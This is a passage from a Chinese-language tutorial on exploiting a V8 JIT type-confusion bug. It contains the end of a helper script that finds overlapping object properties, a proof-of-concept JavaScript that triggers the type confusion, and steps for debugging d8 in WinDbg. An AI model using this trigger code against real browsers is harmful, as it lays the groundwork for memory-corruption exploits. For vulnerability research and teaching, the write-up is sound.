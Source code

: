 ```js
          }
      }
  }
  throw "[!] Failed to find overlapping properties";
}
print("[+] Finding Overlapping Properties...");
findOverlappingProperties();
print(`[+] Properties p${p1} and p${p2} overlap!`);
```

加了一层判断来直接输出哪些元素是重叠的，i!=-res[i],说明进入了优化，后面判断为负值，则保证输出了数组中的元素的值，再将他的位置与元素输出就得出了哪些元素重叠


## 利用Windbg对d8进行调试
测试的Poc代码
```JS
function vuln(obj) {
  // Access Property a of obj, forcing a CheckMap operation
  obj.a;

  // Force a Map Transition via our side-effect
  Object.create(obj)

  // Trigger our type-confusion by accessing an out-of-bound property
  return obj.b;
}

for (let i = 0; i < 10000; i++) {
  let obj = {a:42}; // Create object with in-line properties
  obj.b = 43; // Store property out-of-line in backing store
  if (i = 1) { %DebugPrint(obj); }
  vuln(obj); // Trigger type-confusion
  if (i = 9999) { %DebugPrint(obj); }
}
```


在V8中使用Windbg进行调试
一种简单方法是在 /src/runtime/runtime-test.cc 源文件中的 RUNTIME_FUNCTION(Runtime_DebugPrint) 函数上设置断点。这将在调用 %DebugPrint 时触发，使我们能够从 d8 获取调试输出，并进一步分析 WinDbg 中的漏洞利用。
使用 --allow-natives-syntax 标志在 WinDbg 中启动 d8，后跟概念验证脚本的位置
![image.png](https://s2.loli.net/2023/07/17/pxmP69uACKJqrOB.png)
使用 WinDbg 中的 x v8!*DebugPrint* 命令在 V8 的源代码中搜索 DebugPrint 函数
```
0:000> x v8!*DebugPrint*
*** WARNING: Unable to verify checksum for C:\dev\v8\v8\out\x64.debug\v8.dll
00007ffc`dc035ba0 v8!v8::internal::Runtime_DebugPrint (int, class v8::internal::Object **, class v8::internal::Isolate *)
00007ffc`db99ef00 v8!v8::internal::ScopeIterator::DebugPrint (void)
00007ffc`dc035f40 v8!v8::internal::__RT_impl_Runtime_DebugPrint (class v8::internal::Arguments *, class v8::internal::Isolate *)
```
在 v8!v8::internal::Runtime_DebugPrint 函数上设置断点。您可以通过在 WinDbg 中运行以下命令来完成此操作
```
bp v8!v8::internal::Runtime_DebugPrint
```
即使命中断点，d8 中也没有输出。为了解决这个问题，我们可以通过单击第 542 行并按 F9 在该行上设置一个断点。然后，我们可以按 Shift + F11 或“Step Out”继续执行并在 d8 中查看调试输出。
![image.png](https://s2.loli.net/2023/07/17/HFaoxy1vAS6WUOY.png)
![image.png](https://s2.loli.net/2023/07/17/1xJXtke9Va4v57A.png)
d8输出为
```
DebugPrint: 0000036CCBE8DA99: [JS_OBJECT_TYPE]
 - map: 0x002dd200c251 <Map(HOLEY_ELEMENTS)> [FastProperties]
```